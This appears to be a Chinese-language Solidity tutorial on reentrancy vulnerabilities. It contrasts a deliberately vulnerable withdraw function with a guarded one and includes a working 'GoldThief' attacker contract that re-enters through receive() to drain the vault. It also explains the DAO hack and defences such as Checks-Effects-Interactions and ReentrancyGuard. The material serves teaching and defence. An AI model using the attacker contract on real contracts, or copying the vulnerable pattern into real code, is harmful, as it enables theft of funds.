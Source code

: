 # 金库堡垒合约

本教程探索重入漏洞及其防护。构建了一个带有易受攻击和安全提取函数的 `GoldVault` 合约,以及一个 `GoldThief` 合约来演示攻击及其对安全版本的失败。

## 关键概念

### 金库合约
```solidity
contract GoldVault {
    mapping(address => uint256) public goldBalance;
    
    uint256 private _status;
    uint256 private constant _NOT_ENTERED = 1;
    uint256 private constant _ENTERED = 2;
    
    constructor() {
        _status = _NOT_ENTERED;
    }
    
    modifier nonReentrant() {
        require(_status != _ENTERED, "Reentrant call blocked");
        _status = _ENTERED;
        _;
        _status = _NOT_ENTERED;
    }
    
    function deposit() external payable {
        goldBalance[msg.sender] += msg.value;
    }
}
```

### 易受攻击的提取
```solidity
function vulnerableWithdraw() external {
    uint256 amount = goldBalance[msg.sender];
    require(amount > 0, "No balance");
    
    // 错误: 先发送ETH,后更新余额
    (bool success, ) = msg.sender.call{value: amount}("");
    require(success, "Transfer failed");
    
    goldBalance[msg.sender] = 0;  // 太晚了!
}
```

### 安全的提取
```solidity
function safeWithdraw() external nonReentrant {
    uint256 amount = goldBalance[msg.sender];
    require(amount > 0, "No balance");
    
    // 正确: 先更新状态,后发送ETH
    goldBalance[msg.sender] = 0;
    
    (bool sent, ) = msg.sender.call{value: amount}("");
    require(sent, "Transfer failed");
}
```

### 攻击合约接口
```solidity
interface IVault {
    function deposit() external payable;
    function vulnerableWithdraw() external;
    function safeWithdraw() external;
}
```

### 盗贼合约
```solidity
contract GoldThief {
    IVault public targetVault;
    address public owner;
    uint public attackCount;
    bool public attackingSafe;
    
    constructor(address _vaultAddress) {
        targetVault = IVault(_vaultAddress);
        owner = msg.sender;
    }
    
    function attackVulnerable() external payable {
        attackingSafe = false;
        attackCount = 0;
        
        targetVault.deposit{value: msg.value}();
        targetVault.vulnerableWithdraw();
    }
    
    function attackSafe() external payable {
        attackingSafe = true;
        attackCount = 0;
        
        targetVault.deposit{value: msg.value}();
        targetVault.safeWithdraw();
    }
    
    receive() external payable {
        attackCount++;
        
        if (!attackingSafe && address(targetVault).balance >= 1 ether && attackCount < 5) {
            targetVault.vulnerableWithdraw();
        }
        
        if (attackingSafe) {
            targetVault.safeWithdraw();
        }
    }
    
    function stealLoot() external {
        require(msg.sender == owner, "Not owner");
        payable(owner).transfer(address(this).balance);
    }
    
    function getBalance() external view returns (uint256) {
        return address(this).balance;
    }
}
```

## 核心知识点

### 重入攻击原理

1. **攻击者调用** `vulnerableWithdraw()`
2. **金库发送ETH** 到攻击者合约
3. **触发receive()** 攻击者的receive函数
4. **再次调用withdraw()** 余额还未更新!
5. **重复抽取** 直到金库耗尽

### Checks-Effects-Interactions模式

正确顺序:
1. **Checks**: 验证条件 (`require`)
2. **Effects**: 更新状态 (余额 = 0)
3. **Interactions**: 外部调用 (发送ETH)

### 防御措施

#### 1. ReentrancyGuard
```solidity
modifier nonReentrant() {
    require(_status != _ENTERED, "Reentrant call blocked");
    _status = _ENTERED;
    _;
    _status = _NOT_ENTERED;
}
```

#### 2. 先更新状态
```solidity
goldBalance[msg.sender] = 0;  // 先做这个
(bool sent, ) = msg.sender.call{value: amount}("");  // 后做这个
```

### DAO黑客事件

2016年,The DAO因重入攻击损失360万ETH。这导致了:
- 以太坊硬分叉(ETH vs ETC)
- 对智能合约安全的重视
- OpenZeppelin等安全库的诞生

### 最佳实践

1. **使用ReentrancyGuard**: 来自OpenZeppelin
2. **遵循CEI模式**: Checks-Effects-Interactions
3. **最小化外部调用**: 减少攻击面
4. **审计代码**: 专业安全审计
5. **测试攻击场景**: 主动查找漏洞

### OpenZeppelin的ReentrancyGuard

```solidity
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

contract MyContract is ReentrancyGuard {
    function withdraw() external nonReentrant {
        // 受保护的代码
    }
}
```

更简单,经过审计,推荐使用!

